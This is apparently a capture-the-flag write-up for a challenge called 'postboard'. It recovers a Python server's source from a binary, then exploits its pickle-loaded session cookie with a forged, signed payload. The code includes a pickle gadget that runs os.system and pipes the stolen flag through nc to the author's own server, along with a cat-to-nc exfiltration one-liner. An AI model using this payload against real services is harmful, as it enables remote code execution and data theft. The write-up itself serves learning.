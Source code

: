 ```
postboard
420

I made a post on this new forum, but the memes were so dank that the admin disabled it! I managed to get my hands on a broken binary for the server, can you figure out how to pwn it and retrieve my memes?

46.101.248.243 1337

NOTE: if you are getting server 500 errors, clear your cookies
```

By searching in broken binary for `__main__` or something like `This post has been disabled by the admin for being too dank.` we can find `0x881D40` offset and `0x8C8FE0` offset. After that by checking the cross references we can find `PyImport_ImportFrozenModule` function at `0x41DFDD`. This function finds the frozen module and loads it using `PyMarshal_ReadObjectFromString`. So we can extract the frozen module from `0x8C8FE0` and using `marshal.loads(frozen_module)` we can extract the code. After that by using `meta` module we can get .py file.

```python
import marshal
frozen_module=open("server.b","rb").read()
code=marshal.loads(frozen_module)
import meta, ast
mod = meta.decompile(code)
source = meta.dump_python_source(mod)
```

Here the source variable is the string of the .py file which can be seen [here.](server.py)

By inspecting this file first we spot the cPickle. The script reads the `sesion['auth']` from cookie(encrypted but we have the key at the bottom of the code) and loads it. So now we can use pickle exploit. For signing the pickle I run my own server using flask and the same key and copied the crafted cookie.

At first I tried to do `system('cat ../flagdir/flag 2>&1 | nc ip_of_my_server 10101')` and opened the server using `nc -lvp 10101` but I got permission denied error. The file was owned by `root` however we are `post`. So I used another method that can be found [here.](https://www.cs.uic.edu/~s/musings/pickle.html).

```python
def foo():
  import os
  global posts
  flagg = posts["flag"].i
  os.system('echo "'+flagg+'" | nc ip_of_my_server 10101')

@app.route('/<arg>', methods=['POST', 'GET'])
def index(arg):
    res = """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))
    session['auth'] = res
    return "asdasdasd"
    return None

app.secret_key = 'can_y0u_5Teal_mY+seCr3t-key'
app.run(port=1337, debug=False, host='0.0.0.0')
```

The answer is `BLAZE{pickle_is_super_secure_with_signing_right?}`